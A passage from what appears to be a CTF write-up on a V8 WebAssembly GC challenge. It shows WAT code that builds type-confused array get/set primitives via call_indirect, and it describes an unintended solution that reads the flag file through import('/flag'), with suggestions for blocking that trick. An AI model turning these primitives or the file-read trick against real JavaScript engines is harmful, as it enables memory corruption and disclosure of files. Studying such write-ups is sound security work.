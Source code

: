 ```
    i32.const 0
    (call_indirect 0 (type $sig_i_l))
    (array.get_u $u8arr)
  )
  
  (func $u8arr_set (type $sig_v_u8arrli)
    local.get 0
    local.get 1
    i32.const 0
    (call_indirect 0 (type $sig_i_l))
    local.get 2
    (array.set $u8arr)
  )

  ;; exports
  (export "fn_i_l" (func $fn_i_l))
  (export "fn_l_l" (func $fn_l_l))
  (export "alloc_u8arr" (func $alloc_u8arr))
  (export "u8arr_get" (func $u8arr_get))
  (export "u8arr_set" (func $u8arr_set))
)

```

you can compile it using the wasm gc compiler by typing 
```bash

./wasm -d test.wat -o test.wasm
```

if we test it in the exploit script we see that it crashes the binary as well. 

## Unintentional Solution 

The unintentional way to solve this challenge was to use the import function like so 
```js 
import("/flag");
``` 
that is mainly due to the challenge author giving us the location of the flag file in the patch file given. The reason it works is due to the way the import function works, which as its name implies imports code from a file. Just so happens you can import any type of file it will just error out displaying whatever creates a javascript error. After talking to a few of the teams after the CTF ended this is how they solved it, my belief is I was one of the few to solve it the intended I did. I have seen this unintentional solution in a different CTF so I will point out two different ways that you can "patch" this unintentional solution for future V8 challenges. There are two ways a challenge author can stop this unintentional solution they could put the flag on a seperate line and then create javascript code that wont work properly. Here is an example

```
(;;

FLAG{test}
```
